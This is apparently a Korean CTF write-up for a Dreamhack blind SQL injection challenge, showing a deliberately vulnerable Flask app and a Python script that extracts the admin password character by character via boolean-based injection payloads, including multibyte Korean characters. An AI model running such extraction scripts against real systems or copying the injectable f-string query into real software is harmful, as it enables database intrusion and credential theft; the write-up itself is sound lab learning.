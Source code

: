 ```yaml
---
title : Dreamhack - Blind SQL Injection Advanced
categories: [Dreamhack, Webhacking]
date: 2022-03-31 22:10 +0900
tags: [blind sql injection, dreamhack, dreamhack blind sql injection advanced]
---
```


## Blind SQL Injection Advanced
<hr style="border-top: 1px solid;"><br>

```python
import os
from flask import Flask, request, render_template_string
from flask_mysqldb import MySQL

app = Flask(__name__)
app.config['MYSQL_HOST'] = os.environ.get('MYSQL_HOST', 'localhost')
app.config['MYSQL_USER'] = os.environ.get('MYSQL_USER', 'user')
app.config['MYSQL_PASSWORD'] = os.environ.get('MYSQL_PASSWORD', 'pass')
app.config['MYSQL_DB'] = os.environ.get('MYSQL_DB', 'user_db')
mysql = MySQL(app)

template ='''
<pre style="font-size:200%">SELECT * FROM users WHERE uid='{{uid}}';</pre><hr/>
<form>
    <input tyupe='text' name='uid' placeholder='uid'>
    <input type='submit' value='submit'>
</form>
{% if nrows == 1%}
    <pre style="font-size:150%">user "{{uid}}" exists.</pre>
{% endif %}
'''

@app.route('/', methods=['GET'])
def index():
    uid = request.args.get('uid', '')
    nrows = 0

    if uid:
        cur = mysql.connection.cursor()
        nrows = cur.execute(f"SELECT * FROM users WHERE uid='{uid}';")

    return render_template_string(template, uid=uid, nrows=nrows)


if __name__ == '__main__':
    app.run(host='0.0.0.0')
```

<br>

```php
CREATE DATABASE user_db CHARACTER SET utf8;
GRANT ALL PRIVILEGES ON user_db.* TO 'dbuser'@'localhost' IDENTIFIED BY 'dbpass';

USE `user_db`;
CREATE TABLE users (
  idx int auto_increment primary key,
  uid varchar(128) not null,
  upw varchar(128) not null
);

INSERT INTO users (uid, upw) values ('admin', 'DH{**FLAG**}');
INSERT INTO users (uid, upw) values ('guest', 'guest');
INSERT INTO users (uid, upw) values ('test', 'test');
FLUSH PRIVILEGES;

```

<br>

![image](https://user-images.githubusercontent.com/52172169/161065444-91705e02-5003-4878-9cf6-d562df1a6669.png)

<br>

관리자의 비밀번호는 "아스키코드"와 "한글"로 구성되어 있습니다.

<br><br>
<hr style="border: 2px solid;">
<br><br>

## Solution
<hr style="border-top: 1px solid;"><br>

upw 길이는 27이라고 생각할 수 있으나 한글 즉, unicode가 껴있기 때문에 확실하지 않다.
: 비밀번호의 정확한 길이는 char_length 함수를 이용해서 구할 수 있다.
: CHAR_LENGTH 함수는 문자의 Byte 수를 계산하지 않고 단순히 몇 개의 문자가 있는지를 가져오는 함수

<br>

따라서 ascii 함수 대신에 멀티바이트 문자도 계산해주는 ord 함수를 사용해야 한다.

아스키코드 값은 1바이트(8비트), 멀티바이트는 2바이트(16비트), n바이트이다.

```python
import requests

url='http://host1.dreamhack.games:{port}/'
headers={'Content-Type':'application/x-www-form-urlencoded'}

upw='DH{'

for i in range(4,50): # 비밀번호 길이는 char_length로 정확하게 구할 수 있었음
	bit_len=0
	for j in range(1,33):
		payload={'uid':"admin' and if(length(bin(ord(substr(upw,"+str(i)+",1))))="+str(j)+",1,0)#"}
		res=requests.get(url, headers=headers, params=payload)
		if "exists" in res.text:
			bit_len=j
			break
			
	print("bit_len : "+str(bit_len))
	sub_bit=''
	for k in range(1,bit_len+1):
		payload={'uid':"admin' and if(substr(bin(ord(substr(upw,"+str(i)+",1))),"+str(k)+",1)=1,1,0)#"}
		res=requests.get(url,headers=headers, params=payload)
		if "exist" in res.text:
			sub_bit+='1'
		else:
			sub_bit+='0'

	print("bit: {}".format(sub_bit))
	# upw+=chr(int(sub_bit,2))
	upw+=int.to_bytes(int(sub_bit,2),(bit_len+7)//8, "big").decode("utf-8") # 기본 8bit 단위로 나누는 것
	print("upw : {}".format(upw))
```

<br>

Rubiya의 XAVIS 문제를 풀 때도 비밀번호가 멀티바이트인 한글로 되어있어서 chr을 이용해서 바꿨었는데 그 때는 16bit여서 chr로 충분히 가능했던 것 같다.

16bit은 chr이 변환 가능한 값의 최대값인 0x110000(```1 0001 0000 0000 0000 0000```)에서 벗어나지 않기 때문이다.

이번에는 24bit이기도 했고, 0x110000에도 벗어나서 chr로는 할 수 없었던 것. 

웬만하면 정수를 바이트로 변환할 때는 ```int.to_bytes```를 이용하는 것이 편할 것 같다.

<br>

+ Flag : ```DH{이것이비밀번호!?}```

<br><br>
<hr style="border: 2px solid;">
<br><br>
